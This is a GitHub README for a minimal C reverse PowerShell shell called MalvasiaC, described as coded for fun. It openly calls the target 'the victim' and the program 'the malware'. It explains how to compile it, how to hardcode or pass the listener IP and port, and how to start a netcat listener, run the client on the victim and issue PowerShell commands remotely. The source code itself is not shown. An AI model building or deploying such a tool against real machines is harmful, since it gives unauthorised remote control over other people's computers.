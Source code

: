 # MalvasiaC
## C classic (minimal) reverse powershell
![Alt text](./screen.png)
This is a sample Powershell reverse shell, coded just for fun, keeping the stuff as simple as possible, considering my limited knowledge in C. Indeed the logo is much more cool than the program logic 😁

### Requirements
- The executable has been coded on Windows using Visual Studio Code
- Follow the instruction [here](https://code.visualstudio.com/docs/languages/cpp) to get up & running
- Add the <b>-lws2_32</b> parameter to the compiler task [file](./.vscode/tasks.json)
- Powershell must be present on the client machine (AKA the victim)

### Configuration
You can hardcode the server IP and port around [line 12](./malvasia.c)
```c
char *CLIENT_IP = "127.0.0.1";
int CLIENT_PORT = 1234;
``` 
Eventually you can pass these values as parameters
```
.\malvasia.exe 127.0.0.1 1234
```

#### In action
![Alt text](./screen2.png)
1. Run the server (in this case using netcat)
2. Execute the client (AKA the malware) passing the server IP and port
3. Have fun running some powershell command


